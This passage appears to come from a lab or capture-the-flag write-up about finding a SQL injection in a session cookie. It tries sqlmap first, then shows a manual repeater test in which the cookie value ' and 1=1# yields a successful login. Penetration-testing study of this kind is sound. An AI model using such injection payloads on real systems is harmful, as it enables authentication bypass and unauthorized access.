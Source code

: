 - Try to automate the process with `sqlmap`

➡️ [sqlmap](https://sqlmap.org/) - automatic SQL injection and database takeover tool

- Copy the Request into a new file

```bash
sqlmap -r req.txt
# no injectable testd parameters
```

![sqlmap -r req.txt](.gitbook/assets/2025-02-24_22-12-54_904.png)

- Send the `GET` request with the Cookie to the repeater

```bash
# Successful login
Content-Length: 1027

# With Cookie modified
Content-Length: 1928 # no login

# With Cookie injected
Cookie: session=6967cabefd763ac1a1a88e11159957db' and 1=1#

Content-Length: 1027 # and login success
```
